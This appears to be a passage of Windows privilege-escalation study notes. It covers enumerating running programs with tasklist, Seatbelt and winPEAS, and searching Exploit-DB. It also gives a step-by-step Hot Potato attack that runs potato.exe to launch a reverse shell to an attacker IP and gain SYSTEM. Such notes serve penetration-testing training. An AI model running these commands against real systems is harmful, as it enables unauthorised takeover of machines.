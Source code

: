 # Installed Applications

Most privilege escalations relating to installed applications are based on misconfigurations we have already covered.

Still, some privilege escalations results from things like buffer overflows, so knowing how to identify installed applications and known vulnerabilities is still important.

## Commands
Manually enumerate all running programs:
```
tasklist /v
```
We can also use Seatbelt to search for nonstandard
processes:
```
.\seatbelt.exe NonstandardProcesses
```
winPEAS also has this ability (note the misspelling):
```
.\winPEASany.exe quiet procesinfo
```
## Exploit-DB

Once you find an interesting process, try to identify its version. You can try running the executable with /? or -h, as well as checking config or text files in the Program Files directory.

Use Exploit-DB to search for a corresponding exploit. Some exploits contain instructions, while others are code that you will need to compile and run.

# Hot Potato

Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges.

The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution.

This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.

## Privilege Escalation
1. Copy the potato.exe exploit executable over to Windows.
2. Start a listener on Kali.
3. Run the exploit:
```
.\potato.exe -ip 192.168.1.33 -cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```
4. Wait for a Windows Defender update, or trigger one manually.


# Service Accounts (Rotten / Juicy Potato)
